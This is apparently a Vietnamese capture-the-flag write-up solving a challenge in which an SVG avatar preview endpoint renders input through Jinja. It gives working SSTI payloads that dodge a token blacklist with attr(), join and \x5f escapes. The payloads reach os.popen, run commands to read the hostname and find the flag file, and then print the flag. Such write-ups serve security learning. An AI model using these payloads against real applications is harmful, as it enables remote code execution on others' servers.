








## Description



## Xác minh SSTI

Ứng dụng nhận vào một file SVG rồi render ra ảnh xem trước. Để kiểm tra xem nội dung SVG có bị đưa qua template engine hay không, mình chèn một biểu thức Jinja đơn giản `{{7*7}}`.

Gửi request tới `/avatar/preview`:



-> SSTI

## Xác định object Jinja có sẵn

Mình thử truy cập trực tiếp một thuộc tính đặc biệt:

```svg
<svg xmlns="http://www.w3.org/2000/svg">
  <text>{{ cycler.__init__ }}</text>
</svg>
```

Kết quả:
 
`SVG template contains unsupported renderer syntax.`

-> Ứng dụng có một blacklist chặn các token nhạy cảm như `__`, `globals`, `import`, `popen`, `system`. Vì vậy không thể viết thẳng `__init__`, `__globals__`… trong payload.

## Bypass blacklist bằng `attr()` và `join`

Ý tưởng bypass: thay vì viết trực tiếp tên thuộc tính trên, ta ghép chuỗi tên đó từ nhiều mảnh nhỏ (không mảnh nào trùng token bị chặn) bằng filter `join`, rồi dùng filter `attr()` để truy cập thuộc tính theo tên chuỗi. Ký tự `_` cũng được viết dưới dạng escape `\x5f` để không xuất hiện chuỗi `__` trong payload.

Truy cập `__init__` của `cycler`:

```svg
<svg xmlns="http://www.w3.org/2000/svg">
  <text>{{ cycler|attr(['\x5f','\x5f','init','\x5f','\x5f']|join) }}</text>
</svg>
```



Tiếp theo, truy cập `__globals__`:

```svg
<svg xmlns="http://www.w3.org/2000/svg">
  <text>{{ lipsum|attr(['\x5f','\x5f','glo','bals','\x5f','\x5f']|join) }}</text>
</svg>
```

Kết quả trả về là dictionary global của module `jinja2.utils`. Trong dictionary này có sẵn key `os`, tức là ta đã tiếp cận được module `os` để chạy lệnh hệ thống.



### Xác nhận RCE

Từ `os` ta gọi `os.popen(<lệnh>).read()` để chạy lệnh và đọc kết quả. Literal `popen` cũng nằm trong blacklist nên tiếp tục ghép chuỗi bằng `['po','pen']|join`.

```svg
<svg xmlns="http://www.w3.org/2000/svg">
  <text>{{ lipsum|attr(['\x5f','\x5f','glo','bals','\x5f','\x5f']|join)|attr('get')('os')|attr(['po','pen']|join)('cat /etc/hostname')|attr(['re','ad']|join)() }}</text>
</svg>
```

Kết quả nhận được là hostname của máy chủ, xác nhận được RCE:



### Tìm file flag

Dùng lệnh `find` để tìm file flag trên hệ thống:

```svg
<svg xmlns="http://www.w3.org/2000/svg">
  <text>{{ lipsum|attr(['\x5f','\x5f','glo','bals','\x5f','\x5f']|join)|attr('get')('os')|attr(['po','pen']|join)('find / -maxdepth 6 -type f -iname \*flag\* -print 2>/dev/null')|attr(['re','ad']|join)() }}</text>
</svg>
```



Đọc file flag:

```svg
<svg xmlns="http://www.w3.org/2000/svg">
  <text>{{ lipsum|attr(['\x5f','\x5f','glo','bals','\x5f','\x5f']|join)|attr('get')('os')|attr(['po','pen']|join)('cat /flag_8aa39edf305090d1d6a27403896a95ec.txt')|attr(['re','ad']|join)() }}</text>
</svg>
```



## Flag

```text
PTITCTF{U_h4v3_a_G00d_p0RtF0l1o_ryze_n0w?_dcba17995586}
```
